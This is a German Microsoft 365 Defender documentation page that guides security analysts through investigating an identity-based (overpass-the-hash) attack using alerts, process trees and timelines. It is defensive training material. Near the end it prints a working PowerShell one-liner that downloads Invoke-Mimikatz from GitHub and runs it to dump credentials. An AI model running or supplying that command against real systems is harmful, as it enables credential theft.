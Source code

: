 ```yaml
---
title: Beispiel für einen identitätsbasierten Angriff
description: Durchlaufen Sie eine Beispielanalyse eines identitätsbasierten Angriffs.
keywords: Vorfälle, Warnungen, untersuchen, Korrelation, Angriff, Computer, Geräte, Benutzer, Identitäten, Identität, Postfach, E-Mail, 365, Microsoft, m365, Reaktion auf Vorfälle, Cyberangriff
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: de-DE
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841006"
---
```

# <a name="example-of-an-identity-based-attack"></a>Beispiel für einen identitätsbasierten Angriff

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gilt für:**
- Microsoft 365 Defender

Microsoft Defender for Identity kann dabei helfen, böswillige Versuche zu erkennen, Identitäten in Ihrer Organisation zu kompromittieren. Da Defender for Identity in Microsoft 365 Defender integriert ist, können Sicherheitsanalysten Einblicke in Bedrohungen haben, die von Defender for Identity ausgehen, z. B. verdächtige Rechteerweiterungsversuche von Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysieren des Angriffs in Microsoft Defender for Identity

Microsoft 365 Defender ermöglicht Analysten das Filtern von Warnungen nach Erkennungsquelle auf der Registerkarte **"Warnungen"** der Seite "Vorfälle". Im folgenden Beispiel wird die Erkennungsquelle nach **Defender for Identity** gefiltert. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Beispiel für das Filtern der Erkennungsquelle für Defender for Identity":::

Die Auswahl der Warnung **"Verdächtiger Overpass-the-Hash-Angriff"** führt zu einer Seite in Microsoft Cloud App Security, die ausführlichere Informationen anzeigt. Sie können immer mehr über eine Warnung oder einen Angriff erfahren, indem **Sie weitere Informationen zu diesem Warnungstyp** auswählen, um eine Beschreibung des [Angriffs](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) sowie Korrekturvorschläge zu lesen.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Beispiel für eine Warnung bei einem verdächtigen Overpass-the-Hash-Angriff"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Untersuchen desselben Angriffs in Microsoft Defender für Endpunkt

Alternativ kann ein Analyst Defender für Endpunkt verwenden, um mehr über die Aktivität an einem Endpunkt zu erfahren. Wählen Sie den Vorfall aus der Vorfallwarteschlange aus, und wählen Sie dann die Registerkarte **"Warnungen"** aus. Von hier aus können sie auch die Erkennungsquelle identifizieren. Eine Als EDR bezeichnete Erkennungsquelle steht für Endpunkterkennung und -antwort, bei der es sich um Defender für Endpunkt handelt. Von hier aus wählt der Analyst eine Warnung aus, die von EDR erkannt wurde.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Beispiel für eine Endpunkterkennung und -antwort in Defender für Endpunkt"::: 

Auf der Warnungsseite werden verschiedene relevante Informationen angezeigt, z. B. der betroffene Gerätename, Benutzername, Status der automatischen Untersuchung und die Warnungsdetails. Die Warnungsmeldung stellt eine visuelle Darstellung der Prozessstruktur dar. Die Prozessstruktur ist eine hierarchische Darstellung der übergeordneten und untergeordneten Prozesse im Zusammenhang mit der Warnung.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Beispiel für eine Warnungsprozessstruktur in Defender für Endpunkt"::: 

Jeder Prozess kann erweitert werden, um weitere Details anzuzeigen. Details, die ein Analyst sehen kann, sind die tatsächlichen Befehle, die als Teil eines schädlichen Skripts eingegeben wurden, ip-Adressen für ausgehende Verbindungen und andere nützliche Informationen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Beispiel für Prozessdetails in Defender für Endpunkt":::
 
Durch Die Auswahl von **"Auf Zeitachse** anzeigen" kann ein Analyst noch einen Drilldown ausführen, um den genauen Zeitpunkt des Kompromittierungstermins zu ermitteln. 

Microsoft Defender für Endpunkt kann viele schädliche Dateien und Skripts erkennen. Aufgrund vieler legitimer Verwendungsmöglichkeiten für ausgehende Verbindungen, PowerShell und Befehlszeilenaktivität würden einige Aktivitäten jedoch als gutartig betrachtet, bis eine schädliche Datei oder Aktivität erstellt wird. Daher hilft die Verwendung der Zeitachse Analysten, die Warnung in einen Kontext mit der umgebenden Aktivität zu setzen, um die ursprüngliche Quelle oder uhrzeit des Angriffs zu bestimmen, die andernfalls durch allgemeine Dateisystem- und Benutzeraktivitäten verdeckt wird. 

Dazu würde ein Analyst zum Zeitpunkt der Warnungserkennung (in Rot) beginnen und einen Bildlauf rückwärts ausführen, um zu bestimmen, wann die ursprüngliche Aktivität, die zu der böswilligen Aktivität geführt hat, tatsächlich gestartet wurde. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Beispiel für den Beginn zum Zeitpunkt der Warnungserkennung"::: 

Es ist wichtig, allgemeine Aktivitäten wie Windows Updateverbindungen, Windows vertrauenswürdigen Softwareaktivierungsdatenverkehr, andere häufige Verbindungen mit Microsoft-Websites, Internetaktivitäten von Drittanbietern, Microsoft Endpoint Configuration Manager Aktivitäten und andere gutartige Aktivitäten von verdächtigen Aktivitäten zu verstehen und zu unterscheiden. Eine Möglichkeit, dies zu erreichen, ist die Verwendung von Zeitachsenfiltern. Es gibt viele Filter, die bestimmte Aktivitäten hervorheben können, während sie alles herausfiltern, was der Analyst nicht anzeigen möchte. 

In der Abbildung unten hat der Analyst gefiltert, um nur Netzwerk- und Prozessereignisse anzuzeigen. Auf diese Weise kann der Analyst die Netzwerkverbindungen und Prozesse sehen, die das Ereignis umgeben, bei denen Editor eine Verbindung mit einer IP-Adresse hergestellt haben, die wir auch in der Prozessstruktur gesehen haben. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Beispiel dafür, wie Editor verwendet wurde, um eine schädliche ausgehende Verbindung herzustellen"::: 

In diesem bestimmten Fall wurde Editor verwendet, um eine schädliche ausgehende Verbindung herzustellen. Angreifer verwenden jedoch häufig einfach iexplorer.exe, um Verbindungen zum Herunterladen einer schädlichen Nutzlast herzustellen, da normalerweise iexplorer.exe Prozesse als reguläre Webbrowseraktivitäten betrachtet werden.

Ein weiteres Element, nach dem in der Zeitachse gesucht werden soll, ist PowerShell, das für ausgehende Verbindungen verwendet wird. Der Analyst suchte nach erfolgreichen PowerShell-Verbindungen mit Befehlen, z. B. `IEX (New-Object Net.Webclient)` gefolgt von einer ausgehenden Verbindung zu einer Website, die eine schädliche Datei hostet. 

Im folgenden Beispiel wurde PowerShell zum Herunterladen und Ausführen von Mimikatz von einer Website verwendet:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Ein Analyst kann schnell nach Schlüsselwörtern suchen, indem er das Schlüsselwort in der Suchleiste eingibt, um nur mit PowerShell erstellte Ereignisse anzuzeigen. 

## <a name="next-step"></a>Nächster Schritt

Sehen Sie sich den Pfad der [Phishing-Untersuchung](first-incident-path-phishing.md) an.

## <a name="see-also"></a>Siehe auch

- [Übersicht über Vorfälle](incidents-overview.md)
- [Verwalten von Vorfällen](manage-incidents.md)
- [Untersuchen von Vorfällen](investigate-incidents.md)
